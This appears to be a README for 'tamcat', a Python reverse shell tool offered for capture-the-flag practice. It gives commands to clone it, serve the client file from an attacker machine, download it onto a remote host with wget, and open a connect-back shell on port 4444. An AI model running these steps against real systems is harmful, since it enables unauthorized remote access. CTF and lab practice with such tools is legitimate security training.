 # tamcat
What is tamcat ?
TamCat is a python reverse shell to help you in ctf
# REVERSE SHELL PYTHON
*by arvialo*

**SETUP TAMCAT**
```bash
ON LOCAL :

git clone https://github.com/Arvialo/tamXX
cd tamXX
pip3 install -r requirements.txt # only for attacker
chmod +x tamServ.py
```

**SEND FILE TO REMOTE**
```bash
ON LOCAL :
python3 -m http.server [or python -m SimpleHTTPServer]

ON REMOTE
wget http://[IP]:8000/tamCli.py # only tamCli file is useful
```

**USE TAMCAT**
```bash
ON LOCAL : 
./tamServ.py -l -p 4444

ON REMOTE :
python3 tamCli.py --target [IP] -p 4444 --prompt
```
